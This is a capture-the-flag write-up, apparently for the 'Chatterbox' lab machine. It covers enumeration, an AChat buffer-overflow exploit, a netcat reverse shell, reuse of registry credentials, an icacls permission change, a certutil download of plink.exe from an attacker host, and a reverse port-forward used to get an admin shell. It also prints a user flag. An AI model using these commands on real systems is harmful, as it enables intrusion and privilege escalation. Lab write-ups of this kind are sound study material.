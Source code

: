 ## Initial Enumeration

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp open  http    AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp open  achat   AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```

### SMB Enumeration

```
Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-03-16T07:26:01
|_  start_date: 2025-03-14T12:50:01
|_clock-skew: mean: 6h20m04s, deviation: 2h18m36s, median: 5h00m02s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-16T03:26:02-04:00

```


### Additional Information

- [SpeedGuide Port 9256](https://www.speedguide.net/port.php?port=9256)

![](Images/Pasted%20image%2020250315223211.png)

## Exploitation

We will follow the instructions in the exploit-db post to modify the Python code with the buffer generated via `msfvenom`.

[Exploit: AChat chat system remote command execution](https://www.exploit-db.com/exploits/36025)

### Update the Buffer and Write Pointer Address

Update the buffer with the necessary values and add the write pointer address for the target machine.

![](Images/Pasted%20image%2020250315230224.png)

![](Images/Pasted%20image%2020250315230254.png)

### Setting Up NC Listener and Running the Exploit

We need to set up our Netcat (NC) listener and run the code using Python 2 due to the exploit’s syntax.

![](Images/Pasted%20image%2020250315230337.png)

![](Images/Pasted%20image%2020250315230344.png)

After running the exploit, we successfully gain a shell on the target host as the user `alfred`.

**Note**: Chatterbox is a tough machine, as failing the exploit causes the machine to require a restart.

## Post Exploitation

Now that we have a normal-level user on the system, we can begin enumerating for possible privilege escalation.

### Grab User Flag

First, we can quickly grab the user flag from the desktop.

![](Pasted%20image%2020250315231006.png)

Flag:  
`d20c433812e9b5d408ecccd2d62c4631`

### Finding Administrator Flag

Since we don't have permissions to read the admin flag, let's continue enumeration.

![](Pasted%20image%2020250315231053.png)

After further enumeration, we discover credentials for the `Administrator` account in the registry. Since this is a CTF, we will assume these credentials are valid and attempt to use them to establish a session.

### Double-Checking Credentials with `netexec`

We verify the credentials are correct using `netexec`.

![](Pasted%20image%2020250315233619.png)

### Two Pathways for Obtaining the Admin Flag

#### 1. **Permission Misconfiguration**

We can see that although `alfred` doesn’t have direct access to read the file, they have full control over the directory and its respective files.

- `(I)` means **Inherited** permissions.
- `(OI)` stands for **Object Inherit**, which applies permissions to files within the directory.
- `(CI)` stands for **Container Inherit**, which applies permissions to subdirectories of the current directory.
- `(F)` stands for **Full Control**, meaning **SYSTEM** has full rights to the directory and its contents.

We can modify the permissions on the `root.txt` file using `alfred` to read the flag.

Command to grant full control to `alfred` on `root.txt`:

`icacls root.txt /grant CHATTERBOX\Alfred:(F)`

![](Pasted%20image%2020250315234838.png)

We can now read the root flag. This wasn’t likely the intended solution, as we didn’t "root" the box, so we will also attempt to generate a full administrative shell.

#### 2. **Spawning an Admin Shell via Port Forwarding**

We need to send `plink.exe` to the victim machine to start establishing the port forwarding.

Using `certutil` to download `plink.exe`:

`certutil -urlcache -f http://10.10.14.13/plink.exe plink.exe`

![](Pasted%20image%2020250315235951.png)

![](Pasted%20image%2020250316000138.png)

Now that `plink.exe` is on the victim machine, we establish a connection using:

`plink.exe -l root -pw kali -R 445:127.0.0.1:445 10.10.14.13 -P 2222`
![](Images/Pasted%20image%2020250316003043.png)
### Verifying the Connection with `netstat`

Check the connection:

`netstat -tuln`

![](Pasted%20image%2020250316002534.png)

We have successfully established the connection. Now we can interact with the host remotely.

### Running `winexe` to Open Admin Shell

Using `winexe` to open a new command prompt as Administrator. Although this shell isn’t the best, it gets the job done.

![](Pasted%20image%2020250316002702.png)

---
